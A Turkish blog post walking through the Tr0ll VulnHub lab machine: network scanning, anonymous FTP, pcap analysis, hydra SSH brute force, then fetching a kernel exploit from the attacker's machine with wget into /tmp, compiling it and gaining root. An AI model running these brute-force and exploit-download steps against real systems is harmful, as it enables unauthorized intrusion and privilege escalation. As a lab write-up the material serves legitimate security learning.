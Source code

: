 ```yaml
---
layout: post
title: "Tr0ll Vulnhub Writeup"
date: 2017-04-11
share: true
description: Tr0ll Vulnhub Writeup
tags:
 - vm
comments: false
---
```


# Tr0ll Vulnhub

Herkese merhabalar. Üniversite 1. sınıftan beri hep ertelediğim işi artık yapacağım! Yani Blog tutucam :) Elimden geldiğince faydalı olacağını düşündüğüm yazılar yazmaya çalışacağım. Umarım faydalı olur. O zaman başlayalım.

Bu yazı da sizlere Tr0ll isimli zaafiyetli makinenin çözümünü anlatacağım. Öncelikle makineyi indirmek için;

>[https://www.vulnhub.com/entry/tr0ll-1,100/](https://www.vulnhub.com/entry/tr0ll-1,100/)

Makinenin sanal ortamda kurulumunu tamamlandıktan sonra zaafiyetli makinenin ıp adresini tespit edip işe koyuluyoruz.
Benim kali makinemin ıp adresi 192.168.100.129.

	$ netdiscover -r 192.168.100.0/24 

![](/images/tr0ll/netd.png)
	
diyerekten makinenin ıp adresini buluyoruz.Bende 192.168.100.140 olarak gözüküyor. Ip adresini de bulduğumuza göre bir nmap taraması atıp yolumuzu buluyoruz.

![nmap](/images/nmap.png)

nmap parametrelerini kısaca açıklayayım;
>-sS - - - > SYN Scan. SYN bayraklı paketler yollar. Varsayılan olarak kullanılır ve oldukça hızlıdır.

>-sV - - - > Hangi servisin çalıştığını bilmek yetmez versiyon bilgileride lazımdır.Çalışan servislerin versiyon bilgisini verir.

>-A - - - > Agresif tarama yapar. İşletim sistemi bilgisini , servis ve versiyon bilgilerini verir.

>-Pn - - -> Ping atmadan taramayı gerçekleştirir.

>-p- - - - > Tüm portarı tarar.

Çıktılara bakarsak;

>1-) ftp servisi açık ve anonymous kullanıcılarına açık.
>2-) ssh servisi açık.
>3-) http servisi açık ve çoğu zaman karşılaştığımız robots.txt dosyası bulunuyor.(robots.txt dosyasına arama motorları tarafından indexlenmesini istemediğimiz url bilgilerini yazarız.)Ve secret url bulunuyor.

Öncelikle http servisinde neler bekliyor bizi bakıyoruz.

![](/images/tr0ll/1.png)

Kaynak koduna falan bakıyoruz. Cıks ekmek yok buradan. O zaman robots dosyasına göz gezdirelim.

![](/images/tr0ll/2.png)

![](/images/tr0ll/3.png)

Buradan da ekmek yok bize. O zaman ftp ye anonymous olarak giriş yapalım.

![](/images/tr0ll/4.png)

Kullanıcı adı anonymous password anonymous olarak giriş yapabiliyoruz. ls komutu ile burada neler tutuluyor diye baktığımızda lol.pcap adında dosyayı görüyoruz. Bildiğiniz gibi pcap dosyaları ağ trafiğini gösteren dosyalardır ve wireshark programı ile incelenebiliyor. Dosyayı isterseniz get dosyaAdi şeklinde kendi makinenize çekebilirsiniz isterseniz browser üzerinden ftp://ıp-adresi diyerekten görüntüleyip indirebilirsiniz.

![](/images/tr0ll/5.png)

Pcap dosyasını indirip wireshark ile incelediğimde bir FTP-DATA içerisinde bir mesajla karşılaşıyorum.

![](/images/tr0ll/6.png)

![](/images/tr0ll/8.png)

Bize sup3rs3cr3tdirlol bulmamızı söylüyor. Hemen browser üzerinde url'e yazıyoruz ve sonuc;

![](/images/tr0ll/9.png)

Dosyayı indirip file komutu ile baktığımda ELF dosyası olduğunu gördüm. Yani linux üzerinde çalışan bir dosya. Bu yüzden dosyaya chmod komutu ile çalıştırma izni verip çalıştırdım.

![](/images/tr0ll/10.png)

0x0856BF adresini bulmamızı istiyordu. Bu adresi aratırken bir anda istemeden bu makinenin çözümünü yazan elemanın sayfasında buldum kendimi. Ve yine url de aramamız gerekiyormuş. Hemen url'e bu değeri yazdım.

![](/images/tr0ll/11.png)

good_luck isimli klasöre girdiğimde which_one_lol.txt adlı dosya vardı ve içerinde kullanıcı isimleri bulunduruyordu. Diğer klasörün içerisinde ise Pass.txt dosyası bulunuyordu ve içinde 'Good_job_:)' yazıyordu.

Başta attığımız nmap taramasında hatırlarsanız ssh servisi açıktı ve bu kullanıcı isimleri ve parola ssh ile bağlanmamızı sağlayabilir. Bu yüzden bu dosyları indirip hydra aracı ile ssh servisine brute force yaptım.

Fakat denedim denedim olmadı işe yaramıyordu. Bu böyle olmazdı ve kopya çektim:) Ben Pass.txt dosyası içerisindeki 'Good_job_:)' yazısını paroladır ancak diye düşünüyordum fakat parola 'Pass.txt' imiş. Yani dosyanın ismi.

Makineyi hazırlayan arkadaşları tebrik ediyorum. Makine isminin hakkını veriyor abi. Tam troller...

Neyse hydra ile brute force yaptıktan sonra bakıyoruz ve BİNGO ...

![](/images/tr0ll/12.png)

Parametrelerden kısaca bahsedersem;

>-L - - - > Bu paramatre ile kullanıcı adlarının olduğu listeyi belirtiriz. Eğer '-l' olsaydı tek kullanıcı olduğunu belirtmiş olurduk. Burada dosya içersinden teker teker dener.
>-p - - - > Bu parametre ile parola olarak 'Pass.txt' kullanmasını söyledik.
>ssh - - - > ssh servisine brute force yapacağımız belirttik.

Ve kullanıcı adı 'overflow' parola 'Pass.txt' olduğunu öğrendik.

	ssh overflow@192.168.100.140

Ve içerdeyiz canım kurban.

![](/images/tr0ll/13.png)

Hemen kullanıcı bilgisine ve çekirdek bilgisine bakalım.

![](/images/tr0ll/14.png)

Burada root yetkisine sahip komutlara baktım acaba buradan yürüyebilirmiyim diye fakat birşey çıkmadı. Daha sonra öğrendiğim çekirdek bilgisinden yola çıkarak zaafiyetini aradım ve exploit-db de yayınlanmış olan zaafiyetini gördüm.

![](/images/tr0ll/15.png)

Exploit dosyasını kali makineme indirdim. Buradan python ile http servisi başlattım.

	python -m SimpleHTTPServer 8080
	
Ssh ile bağlandığım zaafiyetle makinede /tmp klasörine gittim. Linux da tmp klasörü geçici dosyalarının tutlduğu yerdir. Yani buraya dosya yazabilirsiniz. Burada ;

	wget http://192.168.100.129:8080/37292.c

komutu ile exploit dosyasını zaafiyetli makineye çektim.

Exploit dosyası c dosyası olduğu için öncelikle bu dosyayı derleyip çalışabilir hale getirdim.

	gcc 37292.c -o exploit 
	
![](/images/tr0ll/16.png)

Ve exploiti çalıştırdığımda artık rootum.

![](/images/tr0ll/17.png)

Artık root klasörüne gidebiliriz. Burada dikkatimizi proof.txt dosyası çekiyor . Zaten makinede okumamız istenen dosya bu. Ve Dosyayı okuduğumuzda Mission Complete...

![](/images/tr0ll/18.png)



















  











